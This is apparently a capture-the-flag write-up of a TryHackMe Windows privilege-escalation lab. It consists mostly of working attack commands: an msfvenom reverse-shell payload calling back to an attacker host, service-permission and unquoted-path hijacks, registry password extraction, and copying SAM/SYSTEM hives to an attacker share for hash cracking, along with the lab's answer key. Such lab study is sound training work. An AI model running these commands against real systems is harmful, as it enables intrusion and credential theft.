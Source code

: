 # Windows PrivEsc

{% embed url="https://tryhackme.com/room/windows10privesc" %}
https://tryhackme.com/room/windows10privesc
{% endembed %}

```bash
xfreerdp /v:10.10.12.59 /u:user /p:password321 /cert-ignore \                                                                                        12 ⨯
         +clipboard /dynamic-resolution /drive:share,/tmp
```

## Task 2 Generate a Reverse Shell Executable

#### Generate a reverse shell executable and transfer it to the Windows VM.&#x20;

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.12.59 LPORT=53 \
         -a x64 --platform windows -f exe -o reverse.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-20-46.png>)

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-15-26.png>)

```
copy \\10.6.9.176\kali\reverse.exe C:\PrivEsc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-19-17.png>)

```
sudo nc -nvlp 53
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-20-14.png>)

## Task 3 Service Exploits - Insecure Service Permissions

```bash
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-26-15.png>)

```bash
sc qc daclsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-27-23.png>)

```bash
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
net start daclsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-30-56.png>)

```bash
sudo nc -nvlp 53
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-31-07.png>)

#### What is the original BINARY\_PATH\_NAME of the daclsvc service?

{% hint style="success" %}
`C:\Program Files\DACL Service\daclservice.exe`
{% endhint %}

## Task 4 Service Exploits - Unquoted Service Path

```bash
sc qc unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-37-31.png>)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-38-46.png>)

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-42-44.png>)

```bash
sudo nc -nvlp 53
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 05-44-50.png>)

#### What is the BINARY\_PATH\_NAME of the unquotedsvc service?

{% hint style="success" %}
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
{% endhint %}

## Task 9 Passwords - Registry

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-36-38.png>)

```
winexe -U 'admin%password123' //10.10.132.141 cmd.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-27-15.png>)

{% hint style="success" %}
`password123`
{% endhint %}

## Task 11 Passwords - Security Account Manager (SAM)

```bash
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

```bash
/usr/share/creddump7/pwdump.py SYSTEM SAM | tee hash.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-17-09.png>)

```bash
hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-29 06-18-30.png>)

#### What is the NTLM hash of the admin user?

{% hint style="success" %}
`a9fdfa038c4b75ebc76dc855dd74f0da`
{% endhint %}

## Task 16 Token Impersonation - Rogue Potato

{% embed url="https://github.com/mchern1kov/pentest-everything/blob/master/privesc/windows/README.md#token-impersonation-roguepotato" %}

#### Name one user privilege that allows this exploit to work.

{% hint style="success" %}
`SeImpersonatePrivilege`
{% endhint %}

#### Name the other user privilege that allows this exploit to work.

{% hint style="success" %}
`SeAssignPrimaryTokenPrivilege`
{% endhint %}



```bash
```

```bash
```

```bash
```

